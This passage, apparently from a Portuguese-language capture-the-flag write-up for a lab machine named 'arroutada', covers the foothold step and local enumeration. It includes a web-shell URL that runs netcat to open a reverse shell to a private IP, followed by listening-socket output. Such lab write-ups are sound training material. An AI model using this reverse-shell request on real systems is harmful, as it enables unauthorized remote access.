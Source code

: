 ![alt text](/assets/img/arroutada/6.png)

## **Acesso/FootHold**

Executado reverse shell no value de a com netcat.

`http://192.168.15.9/thejabasshell.php?a=nc%20192.168.15.26%20443%20-e%20/bin/bash&b=pass`
![alt text](/assets/img/arroutada/7.png)

### Linux smart enumeration

<https://github.com/diego-treitos/linux-smart-enumeration>  

Serviço rodando localmente apenas.

![alt text](/assets/img/arroutada/8.png)



```shell
www-data@arroutada:/tmp$ ss -tlp
ss -tlp                                                                                                                                                                      
State               Recv-Q              Send-Q                            Local Address:Port                             Peer Address:Port              Process              
LISTEN              0                   4096                                  127.0.0.1:8000                                  0.0.0.0:*                                      
LISTEN              0                   511                                           *:http                                        *:*    

```
{: .nolineno }

